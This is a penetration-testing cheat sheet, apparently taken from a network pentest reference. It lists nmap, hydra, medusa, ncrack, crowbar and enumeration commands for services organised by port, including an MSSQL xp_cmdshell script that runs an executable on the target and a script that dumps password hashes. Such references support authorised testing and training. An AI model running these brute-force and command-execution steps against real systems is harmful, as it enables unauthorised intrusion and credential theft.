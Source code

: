 # Source
https://guif.re/networkpentest
# 21 FTP
```bash
nmap -sV -Pn -vv -p21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-syst,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 $TARGET
```

# 22 - SSH
Check lockout policy
```bash
cat /etc/pam.d/system-auth
cat /etc/pam.d/password-auth
```
if okay, start brute forcing for fun
```bash
medusa -u $USER -P /usr/share/wordlists/rockyou.txt -e ns -h $TARGET - 22 -M ssh
hydra -s 22 -v -l $USER -P /usr/share/wordlists/rockyou.txt -e nsr -t 4 $TARGET ssh
ncrack -vv -p 22 --user $USER -P /usr/share/wordlists/rockyou.txt $TARGET
```
Check for weak diffie-hellman groups
```
https://github.com/GDSSecurity/SSH-Weak-DH
```

# 25 SMTP
```bash
# find users
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/top_shortlist.txt -t 10.11.1.115 -p 25
```

# 53 DNS Lookup Range
```bash
dig.sh <ips.txt>

for ip in $(cat ips.txt); do nslookup $ip <nameserver>; done
```

# 69 UDP TFTP
```bash
nmap -n -vvv -d -sU -p69 10.11.1.226 --script tftp-enum.nse --script-args tftp-enum.filelist=/usr/share/wordlists/metasploit/tftp.txt
```

# 88 Kerberos
```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm="$DOMAIN.local",userdb=/usr/share/seclists/Usernames/Names/names.txt $TARGET

nmap -n -v -p 88 --script krb5-enum-users -sV 10.11.1.201 -d --script-args krb5-enum-users.realm='corp',userdb=cirt-default-usernames.txt
```

# 139/445 SMB
```bash
nmap -n -v -p 135-139,445 -T4 -PN -sVC --script= --script-args=unsafe=1 $TARGET
nmap -n -v -p 135-139,445 -T4 -PN -sVC --script --script-args=unsafe=1 $TARGET
nmblookup -A $TARGET
smbclient //MOUNT/share -I $TARGET N
smbclient -L //$TARGET
enum4linux -a $TARGET
rpcclient -U "" $TARGET

# brute
hydra -l manager -P /usr/share/wordlists/rockyou.txt 10.11.1.202 smb
```

# 111/2049 NFS
```bash
nmap -sV -p111,2049 --script=nfs-showmount 10.10.10.10
nmap -p 111,2049 --script=nfs-ls 10.10.10.10
nmap -p 111,2049 --script=nfs-statfs 10.10.10.10

mkdir /tmp/mount
mount -t nfs -o nolock 10.10.10.10:/nfs/path /tmp/mount
```
# 161 SNMP
v1/2
```bash
snmpwalk -v 2c -c public 10.10.10.1
```

v3
```bash
# enumerate usernames
snmpv3enum.rb -i 10.0.0.5 -u usernames

# brute
hydra -U snmp
```

# 389 LDAP
```bash
nmap -n -v -p 389 --script ldap-rootdse.nse -sV 10.11.1.201

nmap -n -v -p 389 --script ldap-search.nse -sV 10.11.1.201

ldapsearch -D "cn=admin" -w secret123 -p 389 -h 10.10.10.10 -s base -b "ou=people,dc=orachrvile,dc=com" "objectclass=*"

# brute
nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' <host>
```

# 80/443 - HTTP Servers
```bash
nmap -n -v -p 80,443,8080 -T4 -PN -sVC --script http-vuln* --script-args=unsafe=1 $TARGET
nikto -h http://$TARGET -p 80 -output 80_nikto.txt
curl -v -i $TARGET:80
w3m -dump $TARGET/robots.txt | tee 80_robots.txt
VHostScan -t $TARGET -oN 80_vhosts.txt
```

## 80/443 - HTTP (Discovery)
```bash
dirb http://$TARGET:80/ -o 80_dirb.txt
dirbuster -H -u http://$TARGET:80/ -l /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -s / -v -r 80_dirbuster_medium.txt
gobuster -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://$TARGET:80/ -s '200,204,301,302,307,403,500' -e | tee '80_gobuster_common.txt'
gobuster -w /usr/share/seclists/Discovery/Web-Content/RobotsDisallowed-Top1000.txt -u http://$TARGET:80/ -s '200,204,301,302,307,403,500' -e | tee '80_gobuster_toprobots.txt'
gobuster -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://$TARGET:80/ -s '200,204,301,307,403,500' -e  | tee '80_gobuster_cgis.txt'
```

## 3389 RDP
```bash
# brute force
ncrack -vv --user administrator -P PASS_LIST rdp://$TARGET
crowbar -b rdp -u -s $TARGET -U USER_LIST -C PASS_LIST
for username in $(cat USER_LIST); do for password in $(cat PASS_LIST) do; rdesktop -u $username -p $password $TARGET; done; done;
```

## 1433/27900 MSSQL
```bash
nmap -vv -sV -Pn -p 27900 --script=ms-sql-info,ms-sql-config,ms-sql-dump-hashes --script-args=mssql.instance-port=27900,mssql.username=sa,mssql.password=sa $TARGET

 nmap -n -v -p 1433 10.11.1.31 -sTV -PN --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="c:\ralph.exe"

 nmap -n -v -p 27900 10.11.1.227 -sV --script ms-sql-query.nse --script-args mssql.username=sa,mssql.password=password,ms-sql-query.query="SELECT * FROM tblCustomers",mssql.database=tblCustomers

```

## 3128,8080/various Proxies (squid, etc)
https://tools.kali.org/maintaining-access/httptunnel
```bash
#Connect to the proxy and scan whats available behind it:
#htc -F <local-port> <address>:<proxy-port>
htc -F 80 10.10.11.31:3128
curl -vv http://127.0.0.1:80

# scan (or run any command over the proxy chains) through the proxy with proxychains
htc -F 9050 10.10.11.31:3128
proxychains nmap -sTVC -p- 10.10.11.31
```

## 5900 VNC
VNC passwords are 8 >= characters long. Tailor dictionary to this
```bash
# vuln
nmap -n -v -p 5900 -sV -T4 -PN --script realvnc*,vnc-info*,vnc-title* $TARGET
# Find public exploits
searchsploit vnc
# Bruteforcing
crowbar -b vnckey -s 10.11.1.73/32 -p IP -k PASS_FILE
```
